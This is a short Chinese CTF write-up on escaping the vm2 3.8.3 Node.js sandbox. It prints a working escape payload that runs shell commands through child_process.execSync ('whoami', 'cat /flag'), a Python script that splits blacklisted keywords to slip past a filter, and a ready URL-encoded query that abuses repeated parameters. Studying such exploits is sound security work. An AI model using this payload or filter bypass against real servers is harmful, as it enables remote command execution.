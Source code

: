 Github 中 vm2 模块的 issue 中给出了 3.8.3 版本的沙箱逃逸

[vm2 issus](https://github.com/patriksimek/vm2/issues/225)，由此可知以下代码可以完成沙箱逃逸

```
const {VM} = require('vm2');
const untrusted = '(function(){
	TypeError.prototype.get_process = f=>f.constructor("return process")();
	try{
		Object.preventExtensions(Buffer.from("")).a = 1;
	}catch(e){
		return e.get_process(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
	}
})()'; 
try{
	console.log(new VM().run(untrusted));
}catch(x){
	console.log(x);
}
```

源代码中存在黑名单，而 node.js 存在一个特性，传入多个同名参数最终能组成一个数组。

```
?id=1&id=2
# id [1,2]
```

filter 函数存在缺陷，判断数组时使用的是 toString 方法，而 return 的是 join() 方法，因此可以在关键词处分割并利用以上特性传入，可以绕过黑名单。

```
s = '''(function(){
	TypeError.prototype.get_process = f=>f.constructor("return process")();
	try{
		Object.preventExtensions(Buffer.from("")).a = 1;
	}catch(e){
		return e.get_process(()=>{}).mainModule.require("child_process").execSync("cat /flag").toString();
	}
})()'''

blacklist = ['function', 'Error', 'prototype', 'process', 'constructor', 'return',
                'Buffer', 'try', 'catch', 'require', 'exec']

for b in blacklist:
    s = s.replace(b, b[:1] + ',' + b[1:])

print(s)
```

将得到的字符串放进 burp decoder 中 url 编码，将 ``%2c`` 替换为 ``&code=``，前面加上``?code=``

```
?code=%28%66&code=%75%6e%63%74%69%6f%6e%28%29%7b%0a%20%20%20%20%20%20%20%20%54%79%70%65%45&code=%72%72%6f%72%2e%70&code=%72%6f%74%6f%74%79%70%65%2e%67%65%74%5f%70&code=%72%6f%63%65%73%73%20%3d%20%66%3d%3e%66%2e%63&code=%6f%6e%73%74%72%75%63%74%6f%72%28%22%72&code=%65%74%75%72%6e%20%70&code=%72%6f%63%65%73%73%22%29%28%29%3b%0a%20%20%20%20%20%20%20%20%74&code=%72%79%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%4f%62%6a%65%63%74%2e%70%72%65%76%65%6e%74%45%78%74%65%6e%73%69%6f%6e%73%28%42&code=%75%66%66%65%72%2e%66%72%6f%6d%28%22%22%29%29%2e%61%20%3d%20%31%3b%0a%20%20%20%20%20%20%20%20%7d%63&code=%61%74%63%68%28%65%29%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%72&code=%65%74%75%72%6e%20%65%2e%67%65%74%5f%70&code=%72%6f%63%65%73%73%28%28%29%3d%3e%7b%7d%29%2e%6d%61%69%6e%4d%6f%64%75%6c%65%2e%72&code=%65%71%75%69%72%65%28%22%63%68%69%6c%64%5f%70&code=%72%6f%63%65%73%73%22%29%2e%65&code=%78%65%63%53%79%6e%63%28%22%63%61%74%20%2f%66%6c%61%67%22%29%2e%74%6f%53%74%72%69%6e%67%28%29%3b%0a%20%20%20%20%20%20%20%20%7d%0a%7d%29%28%29
```

